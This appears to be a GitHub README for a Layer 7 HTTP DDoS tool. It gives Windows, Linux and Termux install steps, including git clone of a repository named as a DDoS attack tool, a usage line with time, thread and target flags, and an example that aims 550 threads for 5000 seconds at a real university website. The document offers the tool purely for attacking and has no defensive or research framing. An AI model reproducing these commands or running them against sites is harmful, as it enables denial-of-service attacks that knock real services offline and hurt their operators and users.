 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
</div>

# :computer: Welcome
<p align="center">
  <img src="https://ctftalkz.xyz/user_avatar/ctftalkz.xyz/celikd/288/454_2.png">
</p>

# ⛔ INSTALL


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcR11tp5q3Bc5nb3EYXL3uvcFjkSWzkT43hdSQ&s" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt
```

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 ddos.py --time 5000 --threads 550 --target https://giet.ac.in/ --method HTTP
```



